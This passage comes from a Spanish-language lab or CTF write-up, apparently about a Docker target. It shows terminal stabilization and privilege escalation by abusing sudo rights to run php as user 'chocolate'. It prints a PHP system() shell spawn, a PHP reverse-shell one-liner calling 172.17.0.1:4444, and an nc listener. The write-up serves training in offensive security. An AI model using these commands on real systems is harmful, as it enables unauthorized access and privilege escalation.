 ### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```

# Intrusion

Ahora que estamos dentro de la máquina, si ejecutamos el comando `sudo -l`, vemos que podemos ejecutar `php` como el usuario `chocolate`. Si no sabemos cómo aprovechar esto, podemos recurrir a [GTFOBins](https://gtfobins.github.io/).

![image](https://github.com/user-attachments/assets/139acb72-7157-4ef0-8099-3a8e6851d7c2)

Para obtener una shell como el usuario `chocolate`, ejecutamos el siguiente comando:

```shell
www-data@5a6d69b701d7:/$ CMD="/bin/sh"
www-data@5a6d69b701d7:/$ sudo -u chocolate php -r "system('$CMD');"
```
Si ejecutamos `whoami`, podemos ver que ya somos el usuario chocolate.

![image](https://github.com/user-attachments/assets/f24c07d0-8694-4c64-b01d-caf7347f6b6b)

Tuve problemas al ejecutar una shell directamente, así que decidí generar otra reverse shell y repetir los pasos para obtener una TTY interactiva.

```bash
sudo -u chocolate /usr/bin/php -r '$sock=fsockopen("172.17.0.1", 4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```
![image](https://github.com/user-attachments/assets/d6da8e77-bd3c-4908-b52a-b2cad03fcbd8)

Por el otor lado estamos escuchando.
```bash
nc -lvnp 4444
```
![image](https://github.com/user-attachments/assets/8d272dbe-51ec-4f56-899b-eaf2a3744165)

Una vez reconectados a la máquina con la nueva reverse shell, repetimos los pasos para configurar una shell interactiva (TTY). 

# Accedor Root
